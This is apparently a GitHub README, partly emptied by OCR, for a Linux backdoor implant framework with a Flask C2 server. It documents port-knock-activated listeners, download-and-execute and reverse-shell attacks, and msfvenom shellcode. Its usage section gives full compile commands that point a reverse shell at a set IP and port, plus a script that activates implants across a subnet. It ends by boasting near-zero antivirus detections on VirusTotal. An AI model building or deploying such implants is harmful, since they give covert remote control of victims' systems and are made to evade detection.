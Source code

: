 # ??????




## Features

## Software Requirements 


### Dependencies:

Required:


To Build x86:


To Load Shellcode:


For Reverse Shell:


## Files

### C Implant

* compiler.py is a basic python framework which allows easy compilation and logging of all implants, similar to the functionality of Veil-Evasion for linux devices

* checker.c and listener.c are the main programs which contain the implant
* attacks.c contains implementations of the attacks
* attacks.h is a header
* dynamic.h is a header file dynamically generated by compiler.py that defines values for the actual compiler

* log.csv is log created during compilation, containing information about all backdoors created.
* activate.py is a python script that parses the logfile, sets up listeners, and activates specified IPs inside of a subnet

### C2 Server 

* servery.py is a flask based HTTP server which responds to requests with C2 information and logs results
* terminal.py is a shell that allows for somewhat easy configuration of C2 
* client.py is a python implementation of the client functionality
* client.c is a shell that eventually will contain the implementation of the C2 server for inclusion with the implant

## Notes 
-d adds debugging comments for the C code, very useful.

If testing locally, change -intfc to 'lo'. 

# Usage

## Compilation 

### Listener with a List of Ports to Port Knock
compiler.py -o implant -p listener -intfc eth0 -act SECRET_PORTS -key 200,300,400 

### Listener with Port Knock Counter
compiler.py -o implant -p listener -intfc eth0 -act SECRET_NUMBER -size 3 -key 1000 

### Checker with Specified Domain
compiler.py -o implant -p checkDNS -delayT 10 -trig "https://target.url" 

## Attacks
### Bang 
-atkB 
Creates a file named bang.txt and if debug is turned on, prints "bang"

### Download and Execute
-atkd 
Downloads a file from a URL specified at compile time and executes it

### Reverse Shell
-atkR -revip _ip_addr_ -revport _port_num_ 
Sends a reverse shell back to a listener specified at compile time.

## Shellcode
-atkSc -a x64 -p linux -ip _host_ip -revip _ip_addr_ -revport _port_num_ 

Shellcode is dynamically generated from msfvenom, parsed, and entered into dynamic.h for inclusion in compiled binary

# Example Usage 

```bash
compiler.py -o implant -p listener -intfc eth0 -act SECRET_PORTS -key 200,300,400 -atkSc -a x64 -p linux -ip 192.168.199.230 -revip 199.168.199.101 -revport 1337
sudo ./implant
```

```bash
msfconsole 
msf > load msgrpc Pass=mypassword
```

```bash
activate.py 192.168.199.0/24
```

# Detection



## VT Detections:
[0/57 Stripped Binary](https://www.virustotal.com/gui/file/5524cd773324ce3b62c0a016d5a14b2bbc92532eb1c20113fb37cbc50cd37bf4)
[1/58 Unstripped Binary](https://www.virustotal.com/gui/file/af3ca3daedc2ebfe58630550dc7cfa2fb9f167326d74fdb6be61a0db30ba1fa4)





